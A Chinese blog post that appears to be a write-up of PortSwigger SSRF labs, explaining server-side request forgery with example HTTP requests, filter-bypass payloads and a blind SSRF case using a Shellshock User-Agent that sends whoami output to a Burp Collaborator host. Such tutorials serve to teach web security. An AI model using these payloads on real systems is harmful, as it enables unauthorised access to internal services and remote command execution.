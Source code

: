 ```yaml
---
layout: post
title: "简析SSRF"
date: 2021-01-25
author: 2hanx
toc: true
categories: [Network]
tags: [web_security, ssrf]
---
```


## Server-side request forgery，服务端请求伪造

允许攻击者诱使服务器端应用程序向攻击者选择的任意域发出HTTP请求

在针对服务器本身的SSRF攻击中，攻击者诱使应用程序通过其环回网络接口向承载应用程序的服务器发出HTTP请求

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1 
```

### 案例1：针对本地服务器的基础SSRF

`stockApi=http://localhost/admin/delete?username=carlos`

为什么应用会有这种隐式方式信任来自计算机的请求，主要有以下原因；

1. 在应用程序前端服务器的不同组件中实现访问控制检查。与服务器本身建立连接后，将绕过检查
2. 为了灾难恢复的目的，以便于管理员在失去凭证情况下可以从其他客户进行恢复
3. 管理员接口可能在其他端口监听，因此在用户不能直接连入的情况下通过这种方式接入管理接口

## SSRF攻击其他后端系统

### 案例2：针对后端系统的SSRF

`http://192.168.0.110:8080/admin/delete?username=carlos`

## 避免普通SSRF攻击

### 基于黑名单的输入过滤器的SSRF

某些应用禁止输入包含类似`localhost`/`127.0.0.1`的主机名或敏感url，但是可以通过其他方法进行绕过：

1. 替代ip地址：`127.0.0.1==>2130706433（十进制）, 017700000001（八进制）, or 127.1`
2. 注册自己的域名，该域名解析为`127.0.0.1`,可以为此目的使用`spoofed.burpcollaborator.net`
3. 通过URL编码和大小写对禁止的字符串进行混淆

> `127.1==127.0.0.1`，浏览器会自动补全

#### 案例3：基于黑名单的输入过滤器的SSRF

`stockApi=http://017700000001/%2561dmin/delete?username=carlos`

### 基于白名单的输入过滤器的SSRF

URL规范包含许多功能，这些特征在实施临时解析和URL验证时容易被忽略：

1. 使用`@`字符在主机名之前的URL中嵌入凭据:`http://expected-host@evil-host`
2. 使用`#`字符指示URL片段：`http://evil-host#expected-host`
3. 利用DNS命名层次结构将所需的输入放入您控制的标准DNS名称中:`http://expected-host.evil-host`
4. 使用URL编码字符来混淆URL解析代码。如果实现过滤器的代码与执行后端HTTP请求的代码以不同的方式处理URL编码的字符，则这特别有用

> `evil-host`代表原先URL，`expected-host`代表利用的URL

#### 案例4: 基于白名单的输入过滤器的SSRF

`stockApi=http://localhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos`

## 通过开放式重定向绕过SSRF过滤器

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://192.168.0.68/admin 
```

这种SSRF漏洞之所以有效，是因为该应用程序首先验证了所提供的`stockAPI `，并且URL在允许的域中，然后应用程序进行重定向，并向攻击者选择的内部URL发出请求

#### 案例5:通过重定向绕过SSRF

`stockApi=/product/nextProduct?currentProductId=1%26path=http://192.168.0.12:8080/admin/delete?username=carlos`

## Blind SSRF漏洞

1. 什么是Blind SSRF漏洞

   当可以诱使应用程序向提供的URL发出后端HTTP请求，但是在应用程序的**前端响应中未返回来自后端请求的响应**时，就会出现Blind SSRF漏洞

2. 如何找到和利用Blind SSRF

   一般通过带外技术(out-of-band,OAST)来检测后端服务器与指定的服务器是否有网络交互,现成有效的OAST技术就是使用Burp Collaborator client

### 案例6:带有Shellshock漏洞的Blind SSRF

```http
GET /product?productId=1 HTTP/1.1
Host: ac081f2e1f63f81d8077445500ff00fa.web-security-academy.net
User-Agent: (){:;};/usr/bin/nslookup $(whoami).kc0silczxsiie14lce41r4ymsdy3ms.burpcollaborator.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.§1§:8080
```

> Shellshock是GNU Bourne Again Shell（BASH）中的一个漏洞，攻击者可以使用特制环境变量来运行任意命令

## 总结

![1]({{ '/web_security/ssrf.svg' | prepend: site.url }})


## Ref.

- [portswigger](https://portswigger.net/web-security/ssrf)
- [bind-ssrf](https://portswigger.net/web-security/ssrf/blind)


